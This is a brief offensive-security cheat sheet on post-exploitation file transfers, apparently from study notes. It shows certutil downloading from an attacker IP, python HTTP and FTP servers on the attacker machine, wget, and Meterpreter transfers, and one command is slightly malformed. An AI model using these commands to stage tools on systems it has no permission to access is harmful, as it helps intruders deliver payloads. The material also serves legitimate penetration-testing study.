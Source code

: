 1. Post Exploitation: File Transfers

## File Transfers Review

As an attacker, we will usually host a file with python on HTTP or FTP, and will grab it with certutil or FTP or just wget

By Windows:
**Certutil**
```
certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt
```

Linux/Windows
**HTTP**
```
python -m SimpleHTTPServer 80
python3 http.server
```

Browser
- Navigate directly to file

**FTP**
```
python -m pyftpdlib 21 (attacker machine)
ftp 10.10.10.10 (from Windows machine)
```

**Linux**
```
wget
```

Can also use **metasploit**: upload/download features on Meterpreter


